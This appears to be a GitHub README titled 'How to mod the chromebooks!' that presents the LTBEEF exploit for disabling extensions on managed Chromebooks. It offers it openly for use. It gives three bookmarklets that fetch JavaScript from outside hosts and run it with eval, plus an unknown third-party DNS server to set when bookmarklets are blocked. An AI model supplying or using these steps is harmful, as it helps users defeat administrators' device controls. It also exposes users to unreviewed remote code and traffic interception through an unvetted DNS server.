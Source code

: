 # How to mod the chromebooks!
Making Chromebooks more vulnerable, one commit at a time.
Huge thanks to 3kh0 for alot of vulnerability's.
# LTBEEF
LTBEEF is an exploit, created by Bypassi#7037, which abuses api endpoints within the google chrome webstore.
Please Note: This exploit only works on versions below 106, and eariler versions of 102

The original site created for this exploit can be found at ltbeef.netlify.app

# Installation (LTBEEF)
There are several vesions of this exploit you can use, here are the 2 most common versions:

# Bookmarklets (LTBEEF)
To use a GUI, bookmark one of the below scripts:

Ingot
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
Compact Cow's UI
javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
Compact Cow's UI (Dark)
javascript:void fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(d=>d.text()).then(eval);
Navigate to https://chrome.google.com/webstorex and click on that bookmark. Flip the switches on the extentions you want to disable. Simple!

# DNS servers (LTBEEF)
By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.

First, go to Settings > Network > Wifi > Network, and click on "Custom Name Servers" image
Set every box there to the following ip:
158.101.114.159 (Hosted by The Greatest Giant#0110)
Navigate to https://chrome.google.com/webstorex and click on that bookmark. Flip the switches on the extentions you want to disable.
